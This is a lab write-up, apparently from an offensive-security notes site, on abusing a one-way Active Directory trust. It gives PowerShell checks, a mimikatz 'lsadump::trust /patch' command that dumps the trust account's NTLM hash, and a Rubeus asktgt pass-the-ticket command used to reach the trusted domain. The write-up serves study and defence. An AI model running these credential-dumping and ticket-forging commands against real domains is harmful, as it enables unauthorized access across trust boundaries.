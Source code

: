 # Abusing Trust Account$: Accessing Resources on a Trusted Domain from a Trusting Domain

This is a quick lab to familiarize with a technique that allows accessing resources on a trusted domain from a fully compromised (Domain admin privileges achieved) trusting domain, by recovering the trusting `account$` (that's present on the trusted domain) password hash.

This lab is based on the great research here [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted), go check it out for more details and detection / prevention ideas.

## Overview

The environment for this lab is as follows:

| Resource               | Type              |                                                                                      |
| ---------------------- | ----------------- | ------------------------------------------------------------------------------------ |
| first-dc.first.local   | Domain Controller | Domain controller in the first.local domain                                          |
| second-dc.second.local | Domain Controller | Domain controller in the second.local domain                                         |
| first.local            | Domain            | This domain does not trust second.local domain, but second.local trusts this domain. |
| second.local           | Domain            | This domain trusts first.local domain, but first.local does not trust this domain.   |

In short, there is a one way trust relationship between `first.local` and `second.local`, where `first.local` does not trust `second.local`, but `second.local` trusts `first.local`. Or simply put in other words, it's possible to access resources from `first.local` on `second.local`, but not the other way around.

The technique in this lab, however, shows that it's still possible to access resources from `second.local` on `first.local` domain if `second.local` domain is compromised and domain admin privileges are obtained.&#x20;

This technique is possible, because once a trust relationship between domains is established, a trust account for the trusting domain is created in the trusted domain and it's possible to compromise that account's password hash, which enables an attacker to authenticate to the trusted domain with the trust account.

In our lab, considering that `first.local` is a trusted domain trusted by the trusting domain `second.local`, the trust account `first.local\second$` (user account `second$` in the domain `first.local`) will be created.&#x20;

`first.local\second$` is the trust account we want to and CAN compromise from the `second.local domain`, assuming we have domain admin privileges there.



## Checks

Let's check some of the things we touched on in the overview.&#x20;

Confirm the trust relationships between domains:

```
# on first-dc.first.local
get-adtrust -filter *
```

![](<../../.gitbook/assets/image (1092).png>)

```
# on second-dc.second.local
get-adtrust -filter *
```

![](<../../.gitbook/assets/image (1089).png>)

Confirm that there's a trust account `second$` on `first.local` domain:

```
# on first-dc.first.local
get-aduser 'second$'
```

![](<../../.gitbook/assets/image (1094).png>)

Confirm that we can enumerate resources on the trusting domain `second.local` from `first.local`:

```
# from first-dc.first.local
get-aduser -Filter * -Server second.local -Properties samaccountname,serviceprincipalnames | ? {$_.ServicePrincipalNames} | ft
```

![](<../../.gitbook/assets/image (1085).png>)

Confirm that we cannot (just yet, but this is soon to change) enumerate resources on the trusted domain `first.local` from the trusting domain :

```
# on second-dc.second.local
get-aduser -Filter * -Server first.local -Properties samaccountname,serviceprincipalnames | ? {$_.ServicePrincipalNames} | ft
```

![](<../../.gitbook/assets/image (1091).png>)

## Compromising Trust Account first.local\second$

As mentioned earlier, the main crux of the technique is that we're able to compromise the trust account `first.local\second$` if we have domain admin privileges on `second.local`.

To compromise the `first.local\second$` and reveal its password hash, we can use mimikatz like so:

```
# on second-dc.second.local
mimikatz.exe "lsadump::trust /patch" "exit"
```

![](<../../.gitbook/assets/image (1093).png>)

Note the RC4 hash in `[out] first.local` -> `second.local` line - this is the NTLM hash for `first.local\second$` trust account, capture it.

## Requesting TGT for first.local\second$

Once we have the NTLM hash for `first.local\second$`, we can request its TGT from `first.local`:

```
#on second-dc.second.local
Rubeus.exe asktgt /user:second$ /domain:first.local /rc4:24b07e26ca7affb4ac061f6920cb57ec /nowrap /ptt
```

![](<../../.gitbook/assets/image (1095).png>)

## Accessing Resources on First.local from Second.local

At this point on `second-dc.second.local`, we have a TGT for `first.local\second$` committed to memory and we can now start enumerating resources on `first.local` - and this concludes the technique, showing that it's possible to access resources on a trusted domain (as a low privileged user), given the trusting domain is compromised:

```
Get-ADUser roast.user -Server first.local -Properties * | select samaccountname, serviceprincipalnames
```

![](<../../.gitbook/assets/image (1090).png>)

## References

{% embed url="https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted" %}
